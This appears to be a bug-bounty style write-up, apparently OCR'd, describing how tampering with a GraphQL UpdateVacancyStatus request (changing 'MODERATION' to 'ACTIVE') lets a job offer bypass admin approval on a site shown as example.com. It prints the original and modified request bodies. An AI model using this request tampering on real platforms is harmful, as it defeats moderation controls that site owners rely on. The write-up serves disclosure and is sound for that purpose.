 # Flaw in Job Offer Approval Process

The website https://example.com/ provides a platform for publishing job offers, but it requires admin approval for any new job offers. In the final step of the process, the application makes a POST request to **/api/graphql**, calling for UpdateVacancyStatus. This request includes the variables vacancyId and status, with the status set to **"MODERATION."**

```
{
  "operationName": "UpdateVacancyStatus",
  "variables": {
    "vacancyId": "10132",
    "status": "MODERATION"
  }
}
```

4. **Exploitation:** However, by intercepting and modifying this request, an attacker can change the status from **"MODERATION"** to **"ACTIVE"** before admin approval is granted.

```
{
  "operationName": "UpdateVacancyStatus",
  "variables": {
    "vacancyId": "10132",
    "status": "ACTIVE"
  }
}
```

**Result:** This manipulation bypasses the intended approval process, allowing unauthorized job offers to be published without admin oversight.
